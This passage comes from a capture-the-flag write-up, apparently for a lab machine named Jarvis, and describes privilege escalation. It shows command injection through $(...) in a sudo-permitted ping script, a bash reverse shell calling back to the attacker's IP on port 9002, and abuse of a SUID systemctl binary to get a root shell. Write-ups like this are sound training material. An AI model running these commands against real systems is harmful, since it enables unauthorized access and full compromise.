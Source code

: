 After browsing to the page, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

When checking the root permissions of _www-data_ via `sudo -l`, it shows that a Python script can be ran as _pepper_:
```markdown
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

This script shows some statistics about attackers, their IPs and it can ping IPs.
```markdown
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

The pinging function is the most interesting one, as it blocks some special characters:
- Ampersand _(&)_
- Semicolon _(;)_
- Dash _(-)_
- Single tick
- Pipe _(|)_

But instead of these, the _Dollar sign ($)_ can be used to execute other commands:
```markdown
sudo -u pepper /var/www/Admin-Utilities/simpler.py

Enter an IP: $(whoami)
ping: pepper: Temporary failure in name resolution
```

In this case, it looks for the hostname _"pepper"_ because of `whoami` and can't find it, but proofs arbitrary command execution.
Creating a reverse shell script _(/tmp/shell.sh)_ to run as _pepper_:
```markdown
bash -i >& /dev/tcp/10.10.14.8/9002 0>&1
```
```markdown
(...)
Enter an IP: $(bash /tmp/shell.sh)
```

After executing it, the listener on my IP and port 9002 starts a reverse shell session as _pepper_.

### Privilege Escalation to root

Lets examine the binaries with **SetUID bit** set:
```markdown
find / -perm -4000 -ls 2>/dev/null
```

The binary _/bin/systemctl_ normally has the **SUID bit** not set by default, but on this box it does.
On [GTFOBins](https://gtfobins.github.io/) it shows, how it can be exploited to escalate privileges.
```markdown
echo '[Service]
Type=oneshot
ExecStart=/home/pepper/shell.sh
[Install]
WantedBy=multi-user.target' > shell.service

systemctl link shell.service
systemctl enable --now shell.service
```

After enabling the service, the listener on my IP and port 9002 starts a reverse shell connection as root!
